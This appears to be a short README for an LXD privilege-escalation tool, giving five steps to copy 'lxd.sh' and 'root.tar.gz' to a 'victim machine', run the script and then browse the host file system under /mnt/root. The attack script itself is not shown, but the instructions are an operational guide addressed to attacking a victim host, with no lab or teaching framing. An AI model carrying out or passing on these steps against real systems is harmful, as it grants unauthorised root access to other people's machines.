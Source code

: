  # Instructions

1. Git clone the repository

2. Transfer `lxd.sh` and `root.tar.gz` to victim machine 

3. chmod +x lxd.sh

4. ./lxd.sh root.tar.gz

5. cd /mnt/root

Now you will have access to file system
 


